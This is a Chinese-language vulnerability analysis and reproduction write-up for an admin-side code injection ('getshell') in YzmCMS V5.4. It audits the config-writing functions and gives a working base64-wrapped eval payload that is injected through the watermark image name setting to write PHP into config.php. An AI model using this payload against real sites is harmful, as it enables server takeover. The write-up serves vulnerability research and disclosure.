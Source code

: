 YzmCMS V5.4 后台getshell（二）
==============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','&lt;',$string);
        $string = str_replace('>','&gt;',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId29.png)

提交以后可以发现已经成功执行命令了

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

![](./.resource/YzmCMSV5.4后台getshell(二)/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5
